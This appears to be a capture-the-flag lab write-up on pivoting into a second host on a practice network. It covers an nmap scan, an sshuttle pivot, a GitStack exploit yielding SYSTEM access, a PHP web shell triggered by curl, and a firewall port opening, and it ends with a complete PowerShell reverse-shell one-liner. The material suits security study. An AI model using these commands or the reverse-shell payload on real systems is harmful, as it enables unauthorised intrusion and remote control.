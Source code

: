 Looks like 10.200.114.100 and 10.200.114.150 are valid IP and on scanning both we got response from 10.200.114.150.

./nmap-n00bmast3r -vvv 10.200.114.150

```
PORT     STATE SERVICE       REASON
80/tcp   open  http          syn-ack ttl 128
3389/tcp open  ms-wbt-server syn-ack ttl 128
5357/tcp open  wsdapi        syn-ack ttl 128
5985/tcp open  wsman         syn-ack ttl 128
```

## Target 2: 10.200.114.150

We can use sshuttle to pivot.

sshuttle -r root@10.200.114.200 --ssh-cmd "ssh -i id_rsa" 10.200.114.150

And we are in!! Now accessing 10.200.114.150 we can see 3 routes.

1. ^registration/login/$
2. ^gitstack/ => Accesing this gives us a login page and default creds didn't work.
3. ^rest/

Searching in searchsploit we got 3 exploits. As recommended we have to choose the python file. And change the linux line endings using dos2unix tool. => dos2unix ./<file>.py (or) sed -i 's/\r//' ./<file>.py

Chnage the ip to 10.200.114.150 and the command to be executed is whoami. Running the exploit we got response as `nt authority\system`.

And looks like we have uploaded a php exploit and it responds to POST request using parameter a.

curl -X POST http://gitserver.thm/web/exploit.php -d "a=whoami" => also gives us the same output

We have to check if we can connect to others outside the box for reverse shell. Let's try to ping ourselves from the box and verify it using tcpdump.

Looks like we can't. Since this is a CentOS it has a wrapper for firewall `firewalld`. The firewall is extremely restrictive and we have to open a port.

firewall-cmd --zone=public --add-port 12345/tcp

Let's put a powershell reverse shell and capture it in static netcat binary we uploaded in 10.200.144.200. 

## Payload

```
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.200.114.200',12345);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
